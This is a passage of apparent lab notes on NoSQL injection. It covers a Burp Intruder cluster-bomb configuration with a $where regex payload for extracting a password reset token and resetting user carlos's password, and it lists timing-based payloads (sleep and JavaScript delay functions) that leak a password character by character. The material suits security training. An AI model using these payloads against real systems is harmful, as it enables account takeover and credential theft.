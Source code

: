 - Send the payload to Burp Intruder and use the similar configuration as before to extract the complete password.
	- Cluster bomb
	- Position 1 - numbers
	- Position 2 - simple list

```json
"$where":"this.forgotPwd.match('^.{<position 1>}<position 2>.*')"}
```

Then send the password reset token value in the "forgotPwd" parameter and reset the password for carlos:

```bash
GET /forgot-password?forgotPwd=TOKEN_VALUE
```
# Timing Based Injection

To conduct timing-based NoSQL injection, first load the page several times to determine a baseline loading time. Then, insert a timing based payload into the input. A timing based payload causes an intentional delay in the response when executed. For example, the below payload causes an intentional delay of 5000 ms on successful injection.

```json
{"$where": "sleep(5000)"}
```

Identify whether the response loads more slowly. This indicates a successful injection. The following timing based payloads will trigger a time delay if the password begins with the letter 'a':

```json
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```

```json
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```
